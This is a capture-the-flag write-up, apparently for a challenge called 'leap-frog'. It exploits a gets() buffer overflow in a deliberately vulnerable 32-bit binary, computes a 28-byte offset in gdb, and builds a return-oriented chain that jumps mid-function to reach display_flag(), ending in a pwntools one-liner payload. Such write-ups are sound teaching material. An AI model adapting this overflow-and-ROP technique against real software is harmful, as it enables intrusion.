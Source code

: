 # leap-frog

## Problem

## Solution

```
void vuln() {
  char buf[16];
  printf("Enter your input> ");
  return gets(buf);
}
```

Buffer size: 16

Expected jump chain:

```
    vuln() -> leapA() -> leap2(int arg_check) -> leap3() -> display_flag()
```

Jump chain by address:

```
    0x080485e6 -> 0x080485fd (PLUS ARGUMENT) -> 0x08048666 -> 0x080486b3
```

buffer address: 0xffb1d9c0
EIP: 0xffb1d9dc

```
> p/d 0xffb1d9dc - 0xffb1d9c0
$1 = 28

```

You'd think this would work, but it doesn't because of the complex logic. But who say we need to follow the logic path? We HACKING!!! Burn the established paths!

Jump chain by sheer will:

```
    0x080485f3 -> 0x08048622 -> 0x08048690 -> 0x080486b3
```

### Craft the exploit

There will be `pop` calls in each function, so we'll have to add some data for it to eat...

```
python -c "from pwn import *;print 'A'*28+p32(0x080485e7)+p32(0x08048622)+p32(0x08048690)+p32(0x080486b3)" | ./rop
```
